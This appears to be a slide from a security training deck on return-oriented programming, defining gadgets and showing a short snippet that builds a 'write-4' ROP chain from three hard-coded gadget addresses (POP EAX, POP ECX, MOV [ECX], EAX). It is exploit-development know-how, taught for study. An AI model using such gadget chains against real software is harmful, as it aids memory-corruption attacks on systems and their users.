

# Gadget Shellcode
Gadgets are a series of assembly instructions ending in a return instruction

Shellcode is executed by creating a fake call stack that will chain a series of instruction blocks together

## Generic Write-4 Gadget ##

rop += "\xD2\x9F\x10\x10“	     # 0x10109FD2 :
		     # POP EAX
 		     # RET
rop += "\xD0\x64\x03\x10“	     # 0x100364D0 :
		     # POP ECX
		     # RET
rop += "\x33\x29\x0E\x10“	     # 0x100E2933 :
		     # MOV DWORD PTR DS:[ECX], EAX
		     # RET